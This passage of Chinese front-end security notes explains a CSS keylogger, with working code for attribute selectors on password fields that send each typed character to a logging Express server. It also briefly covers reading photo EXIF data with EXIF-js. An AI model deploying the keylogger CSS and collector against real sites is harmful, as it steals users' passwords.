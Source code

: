 利用这一漏洞，可以使用`css`中的`background-image`标签，向某个接口发送请求，将用户输入的每一个字符发送给后端：

```css
input[type="password"][value$=" "] { background-image: url("http://localhost:3000/+"); }
input[type="password"][value$="!"] { background-image: url("http://localhost:3000/%21"); }
...
input[type="password"][value$="p"] { background-image: url("http://localhost:3000/p"); }
...
```

上述代码利用属性选择器，将`type=password`且结尾为`p`的输入框选择出来，然后利用请求图像的方式向后端接口发送请求

这样后端就能够知道用户按了字符p

只要我们将所有字符都使用上述方式写一个选择器以及其对应的请求接口，就能获得用户的密码信息

后端实现：

```js
const express = require("express");
const app = express();

// 使用通配符匹配任意一个按键
app.get("/:key", (req, res) => {
  process.stdout.write(req.params.key);
  return res.sendStatus(400);
});

app.listen(3000, () => console.log("> Ready to keylog at localhost:3000"));
```

## 照片EXIF

前端可以使用库`EXIF-js`访问照片的隐私信息

```html
<script src="https://cdn.jsdelivr.net/npm/exif-js"></script>
```

直接将图片和回调传如即可

```javascript
const file = document.querySelector('#img3')
EXIF.getData(file, function () {
    const data = EXIF.pretty(this);
    console.log(data);
})
```

EXIF.getData(img, callback)获取图像的数据

EXIF.getTag(img, tag)获取图像的某个数据

EXIF.getAllTags(img)获取图像的全部数据，值以对象的方式返回

EXIF.pretty(img)获取图像的全部数据，值以字符串的方式返回

## 蜜罐技术
